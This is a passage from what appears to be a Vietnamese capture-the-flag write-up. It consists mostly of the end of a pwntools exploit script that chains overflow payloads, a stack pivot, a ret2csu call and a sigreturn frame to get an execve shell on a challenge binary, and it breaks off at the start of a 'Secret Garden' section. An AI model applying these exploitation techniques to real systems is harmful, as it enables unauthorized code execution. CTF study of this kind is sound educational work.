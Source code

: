 ```python
    p.send(pl2)
    pl3 = flat(
            b'a'*offset,
            exe.got.sleep+0x10,
            pivot
            )
    input("pl3")
    p.send(pl3)
    input("pl4")
    pl4 = target
    p.send(pl4)
    input("pl5")
    pl5 = flat(
            b'a'*offset,
            bss-0x200,
            pop_csu,
            0,0,1,exe.got.read,0,0x601e50,0x300,
            call
            )
    p.send(pl5)
    frame = SigreturnFrame()
    frame.rax = 0x3b
    frame.rsi = 0
    frame.rdx = 0
    frame.rip = exe.plt.sleep
    frame.rdi = 0x601040
    frame.rsp = bss-0x200
    pl = flat(
            0,0,0,0,0,0,0,
            exe.sym.read,
            exe.plt.sleep,
            )
    pl += bytes(frame)
    input('final')
    p.send(pl)
    input("sigreturn")
    p.send(b'a'*0xf)



    p.interactive()

if __name__ == '__main__':
    init()
    exploit()
```

## Secret Garden

- ta thấy bài này sẽ có 5 option 
